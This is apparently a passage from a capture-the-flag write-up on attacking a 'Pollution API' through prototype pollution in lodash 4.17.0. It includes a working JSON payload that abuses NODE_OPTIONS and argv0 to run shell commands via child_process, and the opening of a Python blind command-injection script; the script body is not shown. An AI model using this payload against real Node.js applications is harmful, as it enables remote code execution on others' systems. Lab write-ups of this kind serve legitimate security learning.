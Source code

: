 ![](screenshots/pollution-api-source-1.png)

* lodash version is used by the application is `4.17.0`.
* and It is vulnerable for prototype pollution -> https://github.com/Kirill89/prototype-pollution-exploits/tree/master/lodash
* And we can abuse it to execute arbitrary code -> https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce

Only thing is required is the admin token, And "Pollution API" users details are stored in the mysql database. So we can update the user details after registering new user in the API.


lodash merge prototype pollution payload - 
```json
{"text": {"constructor": {"prototype": {"shell":"/proc/self/exe", "NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\"child_process\").execSync(\"touch /tmp/pp2rce2\").toString())//"}}}}
```



```py
#!/usr/bin/env python3

"""
Author: poorduck
Date: 2023-05-02
Description: Blind command injection using lodash.merge prototype pollution

Usage: python script.py [COMMAND]
                        - Where COMMAND is a system to execute in the target system

Example: python script.py 'ping -c2 10.10.14.46'
"""

```